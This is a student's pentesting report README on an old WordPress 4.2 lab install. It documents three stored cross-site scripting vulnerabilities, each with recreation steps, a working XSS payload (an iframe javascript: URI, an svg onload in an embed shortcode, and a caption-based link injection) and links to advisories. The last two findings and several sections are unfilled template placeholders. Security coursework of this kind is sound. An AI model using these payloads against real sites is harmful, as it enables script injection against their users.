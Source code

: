 # Project 7 - WordPress Pentesting

Time spent: 8 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. WordPress 3.9-5.1 - Comment Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.23
  - [ ] GIF Walkthrough: 
  <img src="/saimantmg01/Codepath_Homework/blob/WordPress-vs.-Kali/XSS_through_comments.gif?raw=true" alt="XSS_through_comments.gif">
  - [ ] Steps to recreate: 
    * Sign in as a user or administrator.
    * Click reply to the post.
    * In comment, input a basic malicious XSS code using iframe:  
    ```
    <IFRAME SRC="javascript:alert('XSS');"></IFRAME>
    ```
  - [ ] Affected source code:
    - [Ripstech](https://blog.ripstech.com/2019/wordpress-csrf-to-rce/)
    - [Github](https://github.com/WordPress/WordPress/commit/0292de60ec78c5a44956765189403654fe4d080b)
    - [wpscan](https://wpscan.com/vulnerability/d150f43f-6030-4191-98b8-20ae05585936)
    
### 2. WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.13
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
    * Signed in as administrator
    * Created a new post named youtube_embed
    * Put a shortcode with XSS:
    ```
    [embed src='https://www.youtube.com/embed/34567\x3csvg onload=alert('XSS')\x3e'][/embed]
    ```
  - [ ] Affected source code:
    - [Sucuri](https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html)
    - [wpscan](https://wpscan.com/vulnerability/3ee54fc3-f4b4-4c35-8285-9d6719acecf0)
    
### 3. WordPress <= 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
    * Signed in as administrator
    * Created a new post named links
    * Put a following HTML and javascript code :
    ``` 
    <a href="[caption code=">]</a><a title="onload=alert('XSS attack')"> It is just a link </a>
    ```
  - [ ] Affected source code:
    - [Klikki](https://klikki.fi/adv/wordpress3.html)
    - [wp-scan](https://wpscan.com/vulnerability/0f027d7d-674b-4a63-9603-25ea68069c1d)
    
### 4. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 5. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
